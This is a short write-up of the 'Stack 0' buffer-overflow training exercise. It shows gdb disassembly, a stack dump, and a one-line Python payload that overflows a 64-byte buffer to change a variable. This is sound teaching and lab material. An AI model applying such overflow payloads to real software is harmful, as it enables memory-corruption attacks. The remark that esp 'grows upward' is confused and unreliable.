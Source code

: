 # Stack 0
        The esp(current stack pointer) grows upward when allocating memory 
        and the higher the esp goes, it points to smaller address number.
        Thus, you need to overwrite all the space of buffer(64 bytes) 
        and then overwrite the allocated space for int modified.

### Process
    $ gdb -q ./stack0
    (gdb) disas main
        Dump of assembler code for function main:
            0x080483f4 <+0>:     push   %ebp
            0x080483f5 <+1>:     mov    %esp,%ebp
            0x080483f7 <+3>:     and    $0xfffffff0,%esp
            0x080483fa <+6>:     sub    $0x60,%esp
            0x080483fd <+9>:     movl   $0x0,0x5c(%esp)
            0x08048405 <+17>:    lea    0x1c(%esp),%eax
            0x08048409 <+21>:    mov    %eax,(%esp)
            0x0804840c <+24>:    call   0x804830c <gets@plt>
            0x08048411 <+29>:    mov    0x5c(%esp),%eax
            0x08048415 <+33>:    test   %eax,%eax
            0x08048417 <+35>:    je     0x8048427 <main+51>
            0x08048419 <+37>:    movl   $0x8048500,(%esp)
            0x08048420 <+44>:    call   0x804832c <puts@plt>
            0x08048425 <+49>:    jmp    0x8048433 <main+63>
            0x08048427 <+51>:    movl   $0x8048529,(%esp)
            0x0804842e <+58>:    call   0x804832c <puts@plt>
            0x08048433 <+63>:    leave
            0x08048434 <+64>:    ret
        End of assembler dump.
    (gdb) b *main+29
    (gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
            Breakpoint 1, main (argc=1,argv=0xffffd634) at stack0/stack0.c:13
            13      stack0/stack0.c: No such file or directory.
    (gdb) x/60x $esp
        0xffffd530: 0xffffd54c  0xffffd5d4  0xf7fb8000  0x0000cd57
        0xffffd540: 0xffffffff  0x0000002f  0xf7e12dc8  0x41414141
        0xffffd550: 0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd560: 0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd570: 0x41414141  0x41414141  0x00004141  0xf7e34c0b
        0xffffd580: 0xf7fb83dc  0x080481e8  0x0804845b  0x00000000
        0xffffd590: 0xf7fb8000  0xf7fb8000  0x00000000  0xf7e1e637
        0xffffd5a0: 0x00000001  0xffffd634  0xffffd63c  0x00000000
        0xffffd5b0: 0x00000000  0x00000000  0xf7fb8000  0xf7ffdc04
        0xffffd5c0: 0xf7ffd000  0x00000000  0xf7fb8000  0xf7fb8000
        0xffffd5d0: 0x00000000  0x607935e6  0x5c199bf6  0x00000000
        0xffffd5e0: 0x00000000  0x00000000  0x00000001  0x08048340
        0xffffd5f0: 0x00000000  0xf7fedf10  0xf7fe8780  0xf7ffd000
        0xffffd600: 0x00000001  0x08048340  0x00000000  0x08048361
        0xffffd610: 0x080483f4  0x00000001  0xffffd634  0x08048450

    buffer[64]: from last stack of line 0xffffd540 
                to 3rd stack of line 0xffffd580 
                -> 64 bytes needs to be overwritten
    modified: from last stack of line 0xffffd580
### Method
    Use more than 64 bytes to overwrite

### Answer
    python -c 'print "A"*68' | ./stack0
    
    

    
    
    
